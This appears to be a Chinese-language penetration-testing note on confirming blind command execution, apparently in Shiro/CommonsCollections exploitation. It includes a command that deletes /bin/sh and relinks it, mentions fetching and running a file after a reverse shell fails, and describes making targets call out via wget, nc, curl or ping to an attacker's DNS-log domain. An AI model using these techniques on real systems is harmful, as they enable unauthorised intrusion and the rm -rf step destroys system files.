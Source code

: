 
假如要sh与bash起同样作用，可以

```
rm -rf /bin/sh
ln -s /bin/bash /bin/sh
```





很奇怪，为什么直接反弹shell会不成功，下载文件然后执行就可以成功，留坑



## 无回显的情况下

针对无回显的命令执行漏洞，让目标机执行`wget`、`nc`或者`curl`等命令，然后在公网主机监听对应的端口，通过日志来判断命令是否被执行。



该方法可行，不过缺陷有以下几点：



- 修改了目标机的文件系统
- 不具有通用性，如windows没有nc、linux没有wget的情况。
- 涉及到TCP数据传输，执行速度慢



一种更好的方式是使用dns日志来判断命令是否执行，流程如下：

- 生成一个特殊的域名，如 66fysa.ceye.io
- 构造payload让目标机执行 ping 66fysa.ceye.io

登录dns服务后台，如果后台记录了该域名的dns查询记录，即证明目标存在命令执行。



使用`ping`命令的时候有个坑，大部分linux系统执行`ping xxxx`时候会一直ping下去，而不是win里面执行4次之后退出。 
解决方案：使用 `ping -n 3 xxx.com || ping -c 3 xxx.com` 可以解决该问题并保证兼容性。



实际情况中会遇到很多入口与出口不同的情况，即我们向主机A发送payload，但是主机B执行了我们的ping命令。这时我们dns日志中的IP与A的IP无法匹配，就会造成漏报。 

解决方案：为每次验证生成独立、随机的域名，如`[random].shiro.xxx.com`，在`[random]`处使用10位随机字符或者递增的数字。这样只要以该域名为准查找日志，即可同时匹配到入口和出口主机IP。



需要主义服务器上的依赖版本选择不同的Conmoncollecctions